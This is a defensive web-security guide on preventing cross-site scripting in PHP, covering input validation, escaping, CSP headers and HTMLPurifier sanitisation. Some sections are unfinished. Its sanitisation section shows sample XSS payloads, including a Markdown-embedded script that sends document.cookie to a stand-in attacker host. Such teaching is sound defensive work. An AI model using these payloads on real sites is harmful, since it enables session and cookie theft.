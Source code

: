 Defending Against Cross-Site Scripting Attacks
==============================================

Defending against XSS is quite possible but it needs to be applied consistently while being intolerant of exceptions and shortcuts, preferably early in the web application's development when the application's workflow is fresh in everyone's mind. Late implementation of defenses can be a costly affair.

Input Validation
----------------

Input Validation is any web application's first line of defense. That said, Input Validation is limited to knowing what the immediate usage of an untrusted input is and cannot predict where that input will finally be used when included in output. Practically all free text falls into this category since we always need to allow for valid uses of quotes, angular brackets and other characters.

Therefore, validation works best by preventing XSS attacks on data which has inherent value limits. An integer, for example, should never contain HTML special characters. An option, such as a country name, should match a list of allowed countries which likewise will prevent XSS payloads from being injected.

Input Validation can also check data with clear syntax constraints. For example, a valid URL should start with http:// or https:// but not the far more dangerous javascript: or data: schemes. In fact, all URLs derived from untrusted input must be validated for this very reason. Escaping a javascript: or data: URI has the same effect as escaping a valid URL, i.e. nothing whatsoever.

While Input Validation won't block all XSS payloads, it can help block the most obvious. We cover Input Validation in greater detail in Chapter 2.

Escaping (also Encoding)
------------------------

Escaping data on output is a method of ensuring that the data cannot be misinterpreted by the currently running parser or interpreter. The obvious examples are the less-than and greater-than sign that denote element tags in HTML. If we allowed these to be inserted by untrusted input as-is, it would allow an attacker to introduce new tags that the browser would render. As a result, we normally escape these using the &gt; and $lt; HTML named entities.

As the replacement of such special characters suggests, the intent is to preserve the meaning of the data being escaped. Escaping simply replaces characters with special meaning to the interpreter with an alternative which is usually based on a hexadecimal representation of the character or a more readable representation, such as HTML named entities, where it is safe to do so.

As my earlier diversion into explaining Context mentioned, the method of escaping varies depending on which Content data is being injected into. HTML escaping is different from Javascript escaping which is also different from URL escaping. Applying the wrong escaping strategy to a Context can result in an escaping failure, opening a hole in a web applications defenses which an attacker may be able to take advantage of.

To facilitate Context-specific escaping, it's recommended to use a class designed with this purpose in mind. PHP does not supply all the necessary escaping functionality out of the box and some of what it does offer is not as safe as popularly believed. You can find an Escaper class which I designed for the Zend Framework, which offers a more approachable solution, here.

Let's examine the escaping rules applicable to the most common Contexts: HTML Body, HTML Attribute, Javascript, URL and CSS.

Never Inject Data Except In Allowed Locations
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Before presenting escaping strategies, it's essential to ensure that your web application's templates do not misplace data. This rule refers to injecting data in sensitive areas of HTML which offer an attacker the opportunity to influence markup parsing and which do not ordinarily require escaping when used by a programmer. Consider the following examples where [...] is a data injection:

.. code-block:: html

     <script>...</script>
     
     <!--...-->
     
     <div ...="test"/>
     
     <... href="http://www.example.com"/>
     
     <style>...</style>

Each of the above locations are dangerous. Allowing data within script tags, outside of literal strings and numbers, would let an attack inject Javascript code. Data injected into HTML comments might be used to trigger Internet Explorer conditionals and other unanticipated results. The next two are more obvious as we would never want an attacker to be able to influence tag or attribute names - that's what we're trying to prevent! Finally, as with scripts, we can't allow attackers to inject directly into CSS as they may be able to perform UI Redress attacks and Javascript scripting using the Internet Explorer supported expression() function.

Always HTML Escape Before Injecting Data Into The HTML Body Context
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The HTML Body Context refers to textual content which is enclosed in tags, for example text included between <body>, <div>, or any other pairing of tags used to contain text. Data injected into this content must be HTML escaped.

HTML Escaping is well known in PHP since it's implemented by the htmlspecialchars() function.

Always HTML Attribute Escape Before Injecting Data Into The HTML Attribute Context
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The HTML Attribute Context refers to all values assigned to element attrbutes with the exception of attributes which are interpreted by the browser as CDATA. This exception is a little tricky but largely refers to non-XML HTML standards where Javascript can be included in event attributes unescaped. For all other attributes, however, you have the following two choices:

1. If the attribute value is quoted, you MAY use HTML Escaping; but
2. If the attribute is unquoted, you MUST use HTML Attribute Escaping.

The second option also applies where attribute quoting style may be in doubt. For example, it is perfectly valid in HTML5 to use unquoted attribute values and examples in the wild do exist. Ere on the side of caution where there is any doubt.

Always Javascript Escape Before Injecting Data Into Javascript Data Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Javascript data values are basically strings. Since you can't escape numbers, there is a sub-rule you can apply:

Always Validate Numbers...

Content-Security Policy
-----------------------

The root element in all our discussions about Cross-Site Scripting has been that the browser unquestionably executes all the Javascript it receives from the server whether it be inline or externally sourced. On receipt of a HTML document, the browser has no means of knowing which of the resources it contains are innocent and which are malicious. What if we could change that?
 
The Content-Security Policy (CSP) is a HTTP header which communicates a whitelist of trusted resource sources that the browser can trust. Any source not included in the whitelist can now be ignored by the browser since it's untrusted. Consider the following:

::
 
    X-Content-Security-Policy: script-src 'self'
 
This CSP header tells the browser to only trust Javascript source URLs pointing to the current domain. The browser will now grab scripts from this source but completely ignore all others. This means that http://attacker.com/naughty.js is not downloaded if injected by an attacker. It also means that all inline scripts, i.e. <script> tags, javascript: URIs or event attribute content are all ignored too since they are not in the whitelist.
 
If we need to use Javascript from another source besides 'self', we can extend the whitelist to include it. For example, let's include jQuery's CDN address.

::

    X-Content-Security-Policy: script-src 'self' http://code.jquery.com
 
You can add other resource directives, e.g. style-src for CSS, by dividing each resource directive and its whitelisting with a semi-colon.
 
::

    X-Content-Security-Policy: script-src 'self' http://code.jquery.com; style-src 'self'
 
The format of the header value is very simple. The value is constructed with a resource directive "script-src" followed by a space delimited list of sources to apply as a whitelist. The source can be a quoted keyword such as 'self' or a URL. The URL value is matched based on the information given. Information omitted in a URL can be freely altered in the HTML document. Therefore http://code.jquery.com prevents loading scripts from http://jquery.com or http://domainx.jquery.com because we were specific as to which subdomain to accept. If we wanted to allow all subdomains we could have specified just http://jquery.com. The same thinking applies to paths, ports, URL scheme, etc.
 
The nature of the CSP's whitelisting is simple. If you create a whitelist of a particular type of resource, anything not on that whitelist is ignored. If you do not define a whitelist for a resource type, then the browser's default behaviour kicks for that resource type.
 
Here's a list of the resource directives supported:
 
connect-src: Limits the sources to which you can connect using XMLHttpRequest, WebSockets, etc.
font-src: Limits the sources for web fonts.
frame-src: Limits the source URLs that can be embedded on a page as frames.
img-src: Limits the sources for images.
media-src: Limits the sources for video and audio.
object-src: Limits the sources for Flash and other plugins.
script-src: Limits the sources for script files.
style-src: Limits the sources for CSS files.
 
For maintaining secure defaults, there is also the special "default-src" directive that can be used to create a default whitelist for all of the above. For example:

::

    X-Content-Security-Policy: default-src 'self'; script-src 'self' http://code.jquery.com
 
The above will limit the source for all resources to the current domain but add an exception for script-src to allow the jQuery CDN. This instantly shuts down all avenues for untrusted injected resources and allows is to carefully open up the gates to only those sources we want the browser to trust.
 
Besides URLs, the allowed sources can use the following keywords which must be encased with single quotes:
 
'none'
'self'
'unsafe-inline'
'unsafe-eval'
 
You'll notice the usage of the term "unsafe". The best way of applying the CSP is to not duplicate an attacker's practices. Attackers want to inject inline Javascript and other resources. If we avoid such inline practices, our web applications can tell browsers to ignore all such inlined resources without exception. We can do this using external script files and Javascript's addEventListener() function instead of event attributes. Of course, what's a rule without a few useful exceptions, right? Seriously, eliminate any exceptions. Setting 'unsafe-inline' as a whitelisting source just goes against the whole point of using a CSP.
 
The 'none' keyword means just that. If set as a resource source it just tells the browser to ignore all resources of that type. Your mileage may vary but I'd suggest doing something like this so your CSP whitelist is always restricted to what it allows:

::

    X-Content-Security-Policy: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'
 
Just one final quirk to be aware of. Since the CSP is an emerging solution not yet out of draft, you'll need to dumplicate the X-Content-Security-Policy header to ensure it's also picked up by WebKit browsers like Safari and Chrome. I know, I know, that's WebKit for you.

::

    X-Content-Security-Policy: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'
    X-WebKit-CSP: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'

Browser Detection
-----------------

HTML Sanitisation
-----------------

At some point, a web application will encounter a need to include externally determined HTML markup directly into a web page without escaping it. Obvious examples can include forum posts, blog comments, editing forms, and entries from an RSS or Atom feed. If we were to escape the resulting HTML markup from those sources, they would never render correctly so we instead need to carefully filter it to make sure that any and all dangerous markup is neutralised.

You'll note that I used the phrase "externally determined" as opposed to externally generated. In place of accepting HTML markup, many web applications will allow users to instead use an alternative such as BBCode, Markdown, or Textile. A common fallacy in PHP is that these markup languages have a security function in preventing XSS. That is complete nonsense. The purpose of these languages is to allow users write formatted text more easily without dealing with HTML. Not all users are programmers and HTML is not exactly consistent or easy given its SGML roots. Writing long selections of formatted text in HTML is painful.

The act of generating HTML from such inputs (unless we received HTML to start with!) occurs on the server. That implies a trustworthy operation which is a common mistake to make. The HTML that results from such generators was still "determined" by an untrusted input. We can't assume it's safe. This is simply more obvious with a blog feed since its entries are already valid HTML.

Let's take the following BBCode snippet:

    [url=javascript:alert('I can haz Cookie?\n'+document.cookie)]Free Bitcoins Here![/url]

BBCode does limit the allowed HTML by design but it doesn't mandate, for example, using HTTP URLs and most generators won't notice this creeping through.

As another example, take the following selection of Markdown:

    I am a Markdown paragraph.<script>document.write('<iframe src="http://attacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');</script>

    There's no need to panic. I swear I am just plain text!

Markdown is a popular alternative to writing HTML but it also allows authors to mix HTML into Markdown. It's a perfectly valid Markdown feature and a Markdown renderer won't care whether there is an XSS payload included.

After driving home this point, the course of action needed is to HTML sanitise whatever we are going to include unescaped in web application output after all generation and other operations have been completed. No exceptions. It's untrusted input until we've sanitised it outselves.

HTML Sanitisation is a laborious process of parsing the input HTML and applying a whitelist of allowed elements, attributes and other values. It's not for the faint of heart, extremely easy to get wrong, and PHP suffers from a long line of insecure libraries which claim to do it properly. Do use a well established and reputable solution instead of writing one yourself.

The only library in PHP known to offer safe HTML Sanitisation is HTMLPurifier. It's actively maintained, heavily peer reviewed and I strongly recommend it. Using HTMLPurifier is relatively simple once you have some idea of the HTML markup to allow:

.. code-block:: php

    // Basic setup without a cache
    $config = HTMLPurifier_Config::createDefault();
    $config->set('Core', 'Encoding', 'UTF-8');
    $config->set('HTML', 'Doctype', 'HTML 4.01 Transitional');
    // Create the whitelist
    $config->set('HTML.Allowed', 'p,b,a[href],i'); // basic formatting and links
    $sanitiser = new HTMLPurifier($config);
    $output = $sanitiser->purify($untrustedHtml);

Do not use another HTML Sanitiser library unless you are absolutely certain about what you're doing.

External Application Defenses
-----------------------------

TBD